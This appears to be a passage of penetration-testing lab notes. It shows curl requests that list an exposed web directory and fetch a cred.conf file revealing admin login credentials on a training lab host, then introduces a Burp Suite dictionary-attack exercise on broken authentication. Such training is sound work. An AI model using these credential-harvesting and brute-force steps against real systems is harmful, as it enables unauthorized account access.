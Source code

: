 `curl -s https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/public/`:
```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /public</title>
 </head>
 <body>
<h1>Index of /public</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/script.gif" alt="[   ]"></td><td><a href="cred.conf">cred.conf</a></td><td align="right">2018-08-25 10:59  </td><td align="right"> 56 </td><td>&nbsp;</td></tr> 📌
<tr><td valign="top"><img src="/icons/folder.gif" alt="[DIR]"></td><td><a href="themes/">themes/</a></td><td align="right">2018-07-20 18:02  </td><td align="right">  - </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.7 (Ubuntu) Server at x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com Port 80</address>
</body></html>
```

`curl -s https://x98om58h6103o8tnmyurp1okd.eu-central-5.attackdefensecloudlabs.com/public/cred.conf`:
```html
url="?/admin/login"
user:admin
password:$k@d00$#@123456 🔑
```

---

## Broken Authentication

### Attacking Login Forms with Burp Suite

#### Lab Environment

**Vulnerable Bank Portal: Dictionary Attack**

[OWASP Top 10](https://owasp.org/www-project-top-ten/) is an awareness document, which outlines the most critical security risks to web applications. Pentesting is performed according to the OWASP TOP 10 standard to reduce/mitigate the security risks.

In the exercise, we will focus on [OWASP A2 Broken Authentication](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication) flaws and we will take a look at how to leverage the broken authentication vulnerability on a single page web application.

**Objective**: Leverage the broken authentication vulnerability and access the administrative portal.
